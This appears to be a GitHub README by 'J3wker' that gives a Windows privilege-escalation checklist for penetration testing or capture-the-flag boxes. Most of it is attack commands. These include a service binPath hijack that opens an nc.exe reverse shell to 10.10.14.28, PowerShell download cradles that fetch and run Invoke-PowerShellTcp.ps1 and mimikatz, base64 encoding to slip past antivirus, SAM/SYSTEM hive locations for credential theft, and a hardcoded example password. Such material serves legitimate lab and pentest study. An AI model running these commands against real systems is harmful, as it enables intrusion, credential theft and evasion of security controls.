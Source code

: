 Made By J3wker

██╗ ██╗██████╗ ██╗ ██╗██╗ ██╗███████╗██████╗ ██╗ ██╔╝ ██║╚════██╗██║ ██║██║ ██╔╝██╔════╝██╔══██╗ ╚██╗ ██╔╝█████╗ ██║ █████╔╝██║ █╗ ██║█████╔╝ █████╗ ██████╔╝█████╗╚██╗ ╚██╗╚════╝██ ██║ ╚═══██╗██║███╗██║██╔═██╗ ██╔══╝ ██╔══██╗╚════╝██╔╝ ╚██╗ ╚█████╔╝██████╔╝╚███╔███╔╝██║ ██╗███████╗██║ ██║ ██╔╝ ╚═╝ ╚════╝ ╚═════╝ ╚══╝╚══╝ ╚═╝ ╚═╝╚══════╝╚═╝ ╚═╝ ╚═╝

BEFORE STARTING !! if system before 2012 - try juciypotato use systeminfo | google the system and update version - look for CVE's and kernel Exploits. If nothing found start the check list.

Check List:

use windows-exploit-suggester.py
systeminfo > sys.txt

Transfer sys.txt to kali and use this with the python script.

Example:

python windows-exploit-suggester.py --database 2019-10-11-mssb.xls --systeminfo sys.txt

In order to get the database file do python windows-exploit-suggester.py --update

NOTE: List files you saw when you enumerated the web and looked intersering. Example:

secret.php db.php auth.php

Read them after getting a basic shell - might have creds in them if so net user try the creds against users - maybe it matches.

Example: runas /user:Administrator cmd.exe Check running process

ps
Get-WmiObject -Query "Select * from Win32_Process" | where {$_.Name -notlike "svchost*"} | Select Name, Handle, @{Label="Owner";Expression={$_.GetOwner().User}} | ft -AutoSize
remmber PID of weird process Write it down and use 2. netstat -ano Check for open ports - google that port - what is it ?

see Users 3. net user

see specific username information / groups 4. net user username - which group is he in ? Logs reader ? read logs - maybe passwords hidden, maybe automatic script the read logs inject command!, part of "Remote Management Group" ? maybe use WinRM

check Credentials mananger:
dir C:\Users\username\AppData\Local\Microsoft\Credentials\ dir C:\Users\username\AppData\Roaming\Microsoft\Credentials\ cmdkey /list if is has keys try:

Domain could be also Hostname or just use username alone runas /user:DOMAIN\Username /savecred command

if that doesnt work - try Meterpreter load incognito- maybe impersonate to a certain user

check Documents folder
check Downloads folder
check Program Files (x86) folder
check Program Files folder
check AppData folder and etc Local - LocalLow - Roaming
Look for werid files and installed programs - look for exploits in them.

check services with write access - to change binpath
accesschk.exe -accepteula -uvwc *

Example:

sc config usosvc binPath="C:\Windows\System32\spool\drivers\color\nc.exe 10.10.14.28 9001 -e cmd.exe" $ Start a listener on port 9001
sc stop usosvc
sc start usosvc
get a shell.
Check for files like .txt / .php - read them. check for automated scripts that are waiting for scertain files for example:
"Admin is waiting for PDF drop it in C:\Docs" - create a Malicious PDF - drop it

Look for backups files SAM.bak - SYSTEM.bak/ windows image backup.
%SYSTEMROOT%\repair\SAM
%SYSTEMROOT%\System32\config\RegBack\SAM
%SYSTEMROOT%\System32\config\SAM
%SYSTEMROOT%\repair\system
%SYSTEMROOT%\System32\config\SYSTEM
%SYSTEMROOT%\System32\config\RegBack\system
What Groups are on the system? net localgroup

Unquoated services ? if so hijack it!

wmic service get name,displayname,pathname,startmode 2>nul |findstr /i "Auto" 2>nul |findstr /i /v "C:\Windows\\" 2>nul |findstr /i /v """
What scheduled tasks are there? Anything custom implemented?
schtasks /query /fo LIST 2>nul | findstr TaskName

or in powershell:

Get-ScheduledTask | where {$_.TaskPath -notlike "\Microsoft*"} | ft TaskName,TaskPath,State

what is running on startup ?
wmic startup get caption,command

Permissions on specific folders ?
icacls "C:\Program Files\*" 2>nul | findstr "(F)" | findstr "Everyone"
icacls "C:\Program Files (x86)\*" 2>nul | findstr "(F)" | findstr "Everyone"
NOTE: Change the value of "Everyone" to your desire. example:

icacls "C:\Program Files\*" 2>nul | findstr "(F)" | findstr "BUILTIN\Users"
icacls "C:\Program Files (x86)\*" 2>nul | findstr "(F)" | findstr "BUILTIN\Users"
If you have user Creds and WinRM is open try:
NOTE: Change Values $user and $pw to match your case.

$user = 'SNIPER\Chris'
$pw = '36mEAhz/B8xQ~2VM'
$secpw = ConvertTo-SecureString $pw -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential $user,$secpw
Possible to convert into one-liner:

$user = 'SNIPER\Chris';$pw = '36mEAhz/B8xQ~2VM';$secpw = ConvertTo-SecureString $pw -AsPlainText -Force;$cred = New-Object System.Management.Automation.PSCredential $user,$secpw
and then:

Invoke-Command -Computer localhost -Credential $cred -ScriptBlock {command}
Get command at the user you prompted

If WinRM isn't available do the same to store creds but use
Start-Process -FilePath "powershell.exe" -Argumentlist "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.8/Invoke-PowerShellTcp.ps1')" -Credential $cred
Wanna Download something?
IEX(New-Object Net.WebClient).downloadString('URL')
(New-Object Net.WebClient).DownloadFile('http://10.10.14.28/mimikatz.exe', 'mimikatz.exe')
AV on ? Command Filtering ?
cat Invoke-PowerShellTcp.ps1 | iconv -t UTF-16LE | base64 -w0 | xclip -selection clipboard
or with a command in plain-text:

echo -n "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.28/Invoke-PowerShellAdmin.ps1')" | iconv -t UTF-16LE | base64 -w 0 | xclip -selection clipboard
to execute the output use

powershell -enc

exmaple : Note - not real output of base64 made it shorter for example.

powershell -enc AMAAuADEANAAuADIAOAAvAEkAbgB2AG8AawBlAC0AUABvAHcAZQByAFMAaABlAGwAbABBAGQAbQB
